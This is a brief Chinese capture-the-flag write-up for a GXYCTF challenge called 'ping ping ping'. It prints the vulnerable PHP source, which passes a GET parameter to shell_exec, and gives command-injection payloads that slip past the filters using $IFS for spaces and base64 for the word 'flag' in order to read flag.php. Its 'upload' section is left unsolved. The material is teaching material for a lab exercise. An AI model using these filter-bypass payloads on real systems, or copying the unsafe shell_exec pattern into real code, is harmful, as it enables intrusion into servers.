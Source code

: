 # gxyctf





## ping ping ping

过滤$,' ',

未过滤符号:`!,#,$,%,(,.,+,-,:,;,=`

过滤空格用$IFS来代替

过滤flag

用base64来绕过

`aasdf||echo$IFS$1ZmxhZy5waHA=|base64$IFS-d|xargs$IFS$IFS``cat`

```php
	<?php
	if(isset($_GET['ip'])){
		$ip = $_GET['ip'];
		if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
			echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
			die("fxck your symbol!");
		}
		else if(preg_match("/ /", $ip)){
			die("fxck your space!");
		}
		else if(preg_match("/bash/", $ip)){
			die("fxck your bash!");
		}
		else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
			die("fxck your flag!");
		}
		$a = shell_exec("ping -c 4 ".$ip);
		echo "<pre>";
		print_r($a);
	}

	?>
```

`asdf||echo$IFS$1ZmxhZy5waHA=|base64$IFS-d|xargs$IFS$IFS$1cat`



## upload



**没做出来忽略他**
